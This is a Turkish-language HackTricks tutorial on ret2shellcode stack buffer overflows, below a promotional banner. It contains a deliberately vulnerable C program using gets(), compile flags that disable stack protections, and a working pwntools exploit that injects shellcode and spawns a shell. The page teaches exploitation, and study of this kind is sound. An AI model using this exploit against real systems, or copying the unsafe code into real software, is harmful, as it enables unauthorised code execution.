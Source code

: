 # Ret2Shellcode

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Temel Bilgiler

**Ret2shellcode**, bir saldırganın zafiyetli bir programın yığınına shellcode yazdığı ve ardından bu shellcode'un bulunduğu konuma **Instruction Pointer (IP)** veya **Extended Instruction Pointer (EIP)**'i değiştirerek çalıştırmasını sağladığı ikili açıktır. Bu, yetkisiz erişim elde etmek veya hedef sistemde keyfi komutlar çalıştırmak için kullanılan klasik bir yöntemdir. İşte bu sürecin ayrıntıları, basit bir C örneği ve **pwntools** ile Python kullanarak buna karşılık gelen bir saldırı yazabileceğiniz şekilde açıklanmıştır.

### C Örneği: Zafiyetli Bir Program

Hadi zafiyetli bir C programının basit bir örneğiyle başlayalım:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
Bu program, `gets()` fonksiyonunun kullanımından dolayı bir tampon taşması saldırısına açıktır.

### Derleme

Bu programı derlemek ve çeşitli korumaları devre dışı bırakarak (zafiyetli bir ortamı simüle etmek için) aşağıdaki komutu kullanabilirsiniz:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: Yığın korumasını devre dışı bırakır.
* `-z execstack`: Yığını yürütülebilir yapar, yığında depolanan shellcode'un yürütülmesi için gereklidir.
* `-no-pie`: Konum Bağımsız Yürütülebilir'i devre dışı bırakır, shellcode'un bulunacağı bellek adresini tahmin etmeyi kolaylaştırır.
* `-m32`: Programı 32 bitlik yürütülebilir olarak derler, genellikle exploit geliştirme sürecinde basitlik için kullanılır.

### Pwntools Kullanarak Python Exploit'i

İşte **pwntools** kullanarak Python'da bir exploit yazabileceğiniz ve **ret2shellcode** saldırısını gerçekleştirebileceğiniz bir örnek:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
Bu betik, bir **NOP kaydı**, **shellcode** ve ardından **EIP**'yi NOP kaynağına işaret eden bir adresle üzerine yazarak shellcode'un yürütülmesini sağlayan bir yük oluşturur.

**NOP kaydı** (`asm('nop')`) kesin adres olmaksızın shellcode'a "kaydırılmasını" sağlamak için kullanılır. `p32()` argümanını, NOP kaydının bulunduğu adres için başlangıç adresinize ve bir ofsete ayarlayın.

## Korumalar

* [**ASLR**](../common-binary-protections/aslr.md) adresin güvenilir olması için **devre dışı bırakılmalıdır** ya da işlevin depolanacağı adres her zaman aynı olmayacak ve kazan işlevinin nerede yüklendiğini bulmak için bir sızıntıya ihtiyacınız olacaktır.
* [**Stack Canaries**](../common-binary-protections/stack-canaries.md) da devre dışı bırakılmalıdır ya da tehlikeye atılan EIP dönüş adresi asla takip edilmeyecektir.
* [**NX**](../common-binary-protections/no-exec-nx.md) **stack** koruması, stack içindeki shellcode'un yürütülmesini engelleyecektir çünkü bu bölge yürütülebilir olmayacaktır.

## Diğer Örnekler

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
